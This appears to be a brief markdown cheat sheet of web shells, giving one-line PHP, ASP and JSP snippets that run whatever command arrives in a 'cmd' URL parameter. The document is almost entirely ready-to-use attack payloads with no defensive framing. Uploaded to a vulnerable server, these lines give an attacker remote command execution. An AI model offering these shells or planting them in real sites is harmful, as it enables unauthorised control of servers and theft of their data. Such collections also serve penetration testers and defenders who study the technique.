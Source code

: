 # Web Shells

## Table of Contents
* [PHP](#php)
* [ASP](#asp)
* [JSP](#jsp)


## PHP

### Execute command (via shell)
Command inputted via "cmd" URL parameter.
```
<?php echo shell_exec($_GET['cmd']); ?>
```

### Execute command
Command inputted via "cmd" URL parameter.
```
<?php echo passthru($_GET['cmd']); ?>
```

## ASP

### Execute command
Command inputted in "cmd" URL parameter.
```
<% eval request("cmd") %>
```

## JSP

### Execute command
Command inputted in "cmd" URL parameter.
```
<% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
```

